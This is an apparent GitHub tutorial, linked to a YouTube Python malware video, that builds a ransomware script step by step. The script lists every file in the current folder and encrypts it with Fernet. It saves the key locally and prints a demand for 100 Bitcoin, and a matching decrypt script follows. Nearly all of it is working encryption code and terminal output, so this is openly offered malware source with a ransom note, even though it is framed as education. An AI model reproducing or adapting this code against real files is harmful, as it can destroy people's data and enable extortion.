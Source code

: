 # Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔒 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'8QVEe4MBoSLINxTpyOExsqrL5XiOks5g1_w-xF-OAmk='</code>
</pre>

**Step 3:**
Obviously, we don't want to print our key right out there in the open where the user can see it. We want the user to give us money, but we do need to save the key into another file for safety so we can unlock the files later *after* we get paid 😉:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔑 How to Save the Key:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

```
</details>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Wait, where is ``thekey.key``? Don't worry! It is still hidden and we can finally view it by entering the following commands:

<pre>
<code>$ ls
file.txt             hey.txt              thekey.key
file2.txt            pleasedonthurtme.txt voldemort.py
$ cat thekey.key
se_by38p9NVVsWezjKWbKgdztEl1GhHZsbMwcGqei84=%</code>
</pre>

**Step 4:**
Now this is where things start to get interesting. We will be pushing our ``thekey.key`` file into the code for our ``voldemort.py`` file so that all the other files will be encrypted. In other words, the poor user can now only see those files as gibberish:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add the following code to ``voldemort.py``:

<details>
<summary>👁️👄👁️ How to Make These Files Come Out as Garble:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print(
    "UH OH!! All of your files have been encrypted! Send me 100 Bitcoin "
    "or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️"
)

```
</details>

Make one quick goodbye to each ``.txt`` file before they get encrypted by your mom:

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
UH OH!! All of your files have been encrypted! Send me 100 Bitcoin or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️</code>
</pre>

This is the moment we've all been waiting for. Now all these ``.txt`` files have been left in ruins 😈:

<pre>
<code>$ cat file.txt
gAAAAABo-Awg21o-xvSxpDgNGSmIIp7-dnngyWuPg7LrHrk3natLfkXeQ6tmOUmFEEjF7Y2RiGlSA4qUAzCUuENsnPWvMN9M_A==%
$ cat file2.txt
gAAAAABo-Awg7t0A_gnTwpl0wWT8wQ5n_H_8bMYAUkNSaF3matNYFsdLnL5Va1oHzkPf1er3fPCKdENvHEdgdfbz_ezx6MiHcg==%
$ cat hey.txt
gAAAAABo-AwgVjmPsRVbL8dOGVu3vb6irWteZ-hFoJmatlHmUo7OzaKfLYS8sWJJcbEOG8YZWkhopMEjDenfYsDGxUti3BJVVw==%
$ cat pleasedonthurtme.txt
gAAAAABo-AwgPUfd7gp184nZvENjB9NhHBiXUZkbrUV4FKnBJZbCQg1fDEll2U42eUYLCBE0LOavmW7fnLFB5Rt8btzK5LspBw==%</code>
</pre>

Fortunately for us hackers, we have a new ``thekey.key`` and that is the key to unlocking these files:

<pre>
<code>$ cat thekey.key
SUxaxvZHjB7l5wgJJJFrHyWHr0D3WBA8CdYWYHVnrIc=%</code>
</pre>

**Step 5:**
Now we can unlock all these files once and for all by writing a ``decrypt.py`` file. Luckily, it is already very similar to the ``voldemort.py`` (AKA the *encrypt.py* file):

<pre>
<code>$ cp voldemort.py decrypt.py
$ nano decrypt.py</code>
</pre>

Add the following code to the ``decrypt.py`` file:

<details>
<summary>🔑 How to Decrypt the Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

with open("thekey.key", "rb") as key:
    secret_key = key.read()

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_decrypted = Fernet(secret_key).decrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_decrypted)

```
</details>

Run ``decrypt.py`` and you should see the following output:

<pre>
<code>$ python decrypt.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Now you can see that all of the files have finally been decrypted!!!

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>
